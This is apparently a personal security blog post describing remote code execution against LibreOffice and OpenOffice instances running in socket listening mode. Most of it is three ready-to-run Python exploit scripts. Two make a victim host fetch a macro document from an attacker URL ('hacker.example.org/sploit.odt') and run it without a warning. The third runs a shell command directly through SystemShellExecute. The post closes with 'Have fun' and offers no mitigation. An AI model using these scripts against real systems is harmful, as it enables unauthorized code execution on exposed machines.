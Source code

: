 ```yaml
---
layout: post
title: LibreOffice listening mode RCE
---
```


LibreOffice (as well as OpenOffice and other relatives) allows users to control the program remotely via [listening mode](https://wiki.openoffice.org/wiki/Documentation/DevGuide/ProUNO/Starting_OpenOffice.org_in_Listening_Mode). 

This mode can be used on any supported platform (Windows, Linux, Mac OS X).

Everything you need is start your office program with the following command:

`soffice -accept=socket,host=0,port=2002;urp;`

Office’s listening mode uses [Universal Network Objects (UNO)](https://www.openoffice.org/udk/common/man/uno.html) component model.
You can write your own scripts to interact with UNO API with python3-uno package.

There are several ways to execute command on remote system using UNO in LibreOffice. 

I'll show you the following three:
1. Open a document with macro in it with *MacroExecMode* set to [ALWAYS\_EXECUTE\_NO\_WARN](https://www.openoffice.org/api/docs/common/ref/com/sun/star/document/MacroExecMode.html#ALWAYS_EXECUTE_NO_WARN)
2. Open a document with macro and then call it with [getScript](https://www.openoffice.org/api/docs/common/ref/com/sun/star/script/provider/XScriptProvider.html#getScript) method
3. [SystemShellExecute](https://www.openoffice.org/api/docs/common/ref/com/sun/star/system/XSystemShellExecute.html#execute) method

Each method can be used with macro security set to **Very High**.
![Very High](https://raw.githubusercontent.com/byurinov/byurinov.github.io/master/images/macro_high.png)



## ALWAYS\_EXECUTE\_NO\_WARN method
Create a document with macro in it. 
You can use MSF’s */exploit/multi/misc/openoffice_document_macro* or you can create it by yourself using *Shell* function of Basic language.

![Custom macro](https://raw.githubusercontent.com/byurinov/byurinov.github.io/master/images/custom_macro.png)
 
Assign your macro to document opening function via *Tools -> Customize -> Open Document*.
![Open with macro](https://raw.githubusercontent.com/byurinov/byurinov.github.io/master/images/open_with_macro.png)


File can be accessed locally as well as remotely.


```python
#!/usr/bin/env python3
import uno
from com.sun.star.beans import PropertyValue

docurl = "http://hacker.example.org/sploit.odt"
#docurl = "file:///tmp/uploaded/sploit.odt"

local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
desktop = context.ServiceManager.createInstanceWithContext("com.sun.star.frame.Desktop", context)

inProps = []
prop = PropertyValue()
prop.Name = "MacroExecutionMode"
prop.Value = 4 # ALWAYS_EXECUTE_NO_WARN

inProps.append(prop)  
document = desktop.loadComponentFromURL(docurl, "_blank", 0, tuple(inProps))
document.dispose()
```
 

## getScript method
 
Create a document with macro as in previous method, then directly call a macro inside the document with *getScript* and *invoke*.

```python
#!/usr/bin/env python3
import uno
from com.sun.star.beans import PropertyValue

docurl = "http://hacker.example.org/sploit.odt"
#docurl = "file:///tmp/uploaded/sploit.odt"

local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
desktop = context.ServiceManager.createInstanceWithContext("com.sun.star.frame.Desktop", context)
document = desktop.loadComponentFromURL(docurl, "_blank", 0, tuple([]))
model = desktop.getCurrentComponent()
sp = model.getScriptProvider()
sc = sp.getScript("vnd.sun.star.script:Standard.Module1.Main?language=Basic&location=document")
sc.invoke((),(),())
document.dispose()
```

## SystemShellExecute method

The best way to execute your command is to use *execute* method of *XSystemShellExecute* interface of API. You don't even need to create a document to use it.

```python
#!/usr/bin/env python3
import uno
from com.sun.star.beans import PropertyValue

local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
rc = context.ServiceManager.createInstanceWithContext("com.sun.star.system.SystemShellExecute", context)
rc.execute("/usr/bin/touch", "/tmp/PWNED", 1)
```

Have fun.



